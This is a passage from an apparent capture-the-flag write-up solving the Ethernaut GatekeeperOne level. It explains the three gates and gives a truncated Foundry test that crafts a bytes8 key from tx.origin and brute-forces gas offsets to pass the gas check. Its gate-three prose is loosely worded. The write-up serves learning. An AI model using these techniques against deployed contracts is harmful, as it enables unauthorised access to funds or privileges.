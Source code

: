 Gate Two: The remaining gas must be a multiple of 8191 → gasleft() % 8191 == 0.

Gate Three:

The last 4 bytes of gateKey must match the last 2 bytes of the tx.origin.

But full gateKey must not equal the last 4 bytes alone.

This forces manipulation of only the lower 2 bytes of a crafted bytes8.

### 🛠️  Exploit Contract


Gate One: Bypassed using an external contract call (attacker != tx.origin).

Gate Two: Brute-forced by adjusting gas until gasleft() % 8191 == 0.

Gate Three: Crafted bytes8:

Lower 2 bytes match tx.origin.

Full 8 bytes ≠ 4 bytes → satisfies all require() checks.

Result: entrant = tx.origin set successfully.
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {GatekeeperOne} from "../src/level14.sol";
import {Test, console} from "forge-std/Test.sol";

contract GateKeeperOneTest is Test {
    GatekeeperOne public gatekeeperOne;
    address public attacker = makeAddr("attacker");
    address public player = makeAddr("player");
    bytes8 public gateKey;

    function setUp() public {
        vm.deal(attacker, 100 ether);
        vm.deal(player, 100 ether);
        vm.startPrank(player); // tx.origin must be player
        gatekeeperOne = new GatekeeperOne();
        vm.stopPrank();
    }

    function test_attack() public {
        vm.startPrank(attacker);

        // Extract last 2 bytes of tx.origin
        uint16 origin16 = uint16(uint160(tx.origin));
        // Combine it with a prefix so uint64(gateKey) != uint32(gateKey)
        uint64 crafted = uint64(0xABCDEFAB00000000) | origin16;
        gateKey = bytes8(crafted);

        // Bruteforce correct gas offset
        for (uint256 i = 0; i < 8191; i++) {
            (bool success, ) = address(gatekeeperOne).call{
                gas: i * 8191 + 200 + 8191
            }(abi.encodeWithSignature("enter(bytes8)", gateKey));
            if (success) {
                console.log("✅ Attack Successful!");
                console.log("i value", i);
                console.log("gasleft", gasleft());
                string memory str = string(abi.encodePacked(gateKey));
                console.log("gateKey", str);
                break;
            }
        }
```